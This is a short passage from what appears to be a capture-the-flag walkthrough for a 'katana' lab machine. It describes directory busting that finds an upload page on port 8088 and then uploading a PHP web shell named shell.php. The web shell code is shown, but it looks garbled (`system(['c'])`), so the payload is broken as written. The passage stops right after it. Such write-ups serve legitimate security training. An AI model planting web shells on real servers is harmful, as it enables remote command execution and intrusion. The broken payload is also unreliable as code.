 
# exploitation

## file upload
Dir busting reveals that the resource `/upload.html` is availabe on port `8088`. This resource allows to upload files to the server.

![upload](/images/katana_upload.png)

Lets try to upload a simple file named `shell.php` with the following content.
```php
<?php system(['c']); ?>
```
